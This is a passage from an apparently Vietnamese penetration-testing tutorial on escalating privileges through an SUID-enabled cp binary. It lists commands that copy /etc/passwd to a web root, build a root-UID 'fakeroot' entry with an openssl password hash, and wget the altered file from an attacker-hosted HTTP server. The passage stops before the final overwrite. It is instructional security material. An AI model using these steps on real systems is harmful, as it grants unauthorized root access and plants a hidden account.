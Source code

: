 Vậy câu lệnh trên sẽ tìm toàn bộ files có SUID của user root. Việc thêm `2>/dev/null` ý nghĩa rằng toàn bộ errors ( **file channel 2** ) trong quá trình chạy sẽ được redirect tới **/dev/null** nhằm bỏ qua tất cả errors đó. 

### SUID được gán cho Copy command


```none
$ id
uid=1001(test) gid=1002(test) groups=1002(test)
$ find / -perm -u=s -type f 2>/dev/null | grep cp
/usr/bin/cp
```

Ý tưởng ở đây là: Chúng ta sẽ copy file **/etc/passwd**. Nơi chứa rất nhiều thông tin nhạy cảm như thông tin của các user trên máy. Sử dụng copy, chúng ta sẽ chuyển nó đến thư mục web **/var/www/html**. Trên máy attacker, chúng ta dễ dàng truy cập, copy toàn bộ nội dung vào 1 file **text**. Tạo một user mới bằng cách sử dụng OpenSSL, gán quyền root cho user đó ( UID = 0 ), lưu vào cuối file **text**. Sau đó chuyển lại về máy victim ở thư mục **/tmp/** (thư mục mặc định, có toàn quyền để tạo hay xóa mọi file) . Cuối cùng là dùng copy để ghi đè lên file **passwd** thật.

Command: `cp /etc/passwd /var/www/html`

![](img/Capture1.PNG)

Copy nội vào file text tên **passwd** và tạo một user mới:

Command: `openssl passwd -1 -salt [salt value] {password}`

```none
hanx@NgoXuanHa$ openssl passwd -1 -salt 123 1
$1$123$fFdLE/c/HAQnsD7rpaQk4.
```

Thêm user vào cuối file text trên, gán UID, GID:

```none
ubuntu@ubuntu1804:/tmp$ echo 'fakeroot:$1$123$fFdLE/c/HAQnsD7rpaQk4.:0:0::/root/root:/bin/bash' >> passwd 

```

```none
ubuntu@ubuntu1804:/tmp$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
```

Tại thư mục **/tmp/** ở máy victim, **wget** file text trên về:

```none
$ cd /tmp
$ wget 192.168.160.129:9999/passwd
--2022-03-29 14:16:09--  http://192.168.160.129:9999/passwd
Connecting to 192.168.160.129:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3270 (3.2K) [application/octet-stream]
Saving to: ‘passwd’

passwd                       100%[==============================================>]   3.19K  --.-KB/s    in 0s      

2022-03-29 14:16:09 (20.3 MB/s) - ‘passwd’ saved [3270/3270]

```
